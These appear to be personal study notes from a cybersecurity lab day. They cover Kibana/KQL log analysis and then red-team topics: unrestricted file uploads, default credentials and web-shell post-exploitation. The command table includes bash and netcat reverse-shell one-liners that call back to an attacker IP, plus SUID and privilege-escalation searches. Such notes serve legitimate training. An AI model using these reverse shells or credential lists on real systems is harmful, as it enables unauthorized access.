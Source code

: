 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
    ELK: Elasticsearch, Logstash, and Kirbana  
    
ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
    - Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
    - KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).<br>

    | Query/Syntax | Description | Example |
    | :---: | :---: | :---: |
    | " " | Search for specific values. **Exact** search. | "TryHackMe" |
    | ** | Wildcard for similar matches to value provided | United** (returns United Kingdom and United States) |
    | OR | Shows documents that contain **either** value provided | "United Kingdom" OR "England" |
    | AND | Shows documents that contain **both** values provided | "Ben" AND "25" |
    | : | Search a specific field in the document. Field availability<cr>depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
    - RCE: Uploading a script that the server runs giving control to the attacker.  
    - XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

    | Username | Password |
    | :---: | :---: |
    | admin | admin |
    | administrator | administrator |
    | admin@domainname | admin |
    | guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

    | Command | Use |
    | :---: | :---: |
    | ls | Gives idea of files and directories around you |
    | cat | Outputs contents of documents like text files |
    | pwd | Gives idea of where in system you are |
    | whoami | Lets you know who you are |
    | hostname | System name and potentially its role |
    | uname -a | System info like OS, kernel version, etc. |
    | id | Shows any groups current user is assigned to |
    | ifconfig | Network setup info |
    | bash -i >& /dev/tcp/<br>'<your-ip>/'<port> 0>&1 | Begins reverse shell via bash |
    | nc -e /bin/sh '<your-ip> <port> | Begin reverse shell via Netcat |
    | find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
    | find / -writable -type f 2>/dev/<br>null \| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

